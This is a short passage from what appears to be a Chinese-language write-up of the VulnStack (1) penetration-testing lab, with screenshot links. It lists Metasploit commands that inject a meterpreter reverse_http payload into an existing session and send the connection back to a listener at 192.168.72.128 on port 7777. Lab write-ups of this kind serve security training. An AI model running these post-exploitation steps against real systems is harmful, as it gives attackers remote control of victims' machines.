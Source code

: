 ![img](VulnStack(1)/images/image-22.png)

这里端口设的7777
MSF从meterpreter开始

background
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true
set lhost 192.168.72.128
set lport 7777
set session 1
run

![img](VulnStack(1)/images/image-23.png)
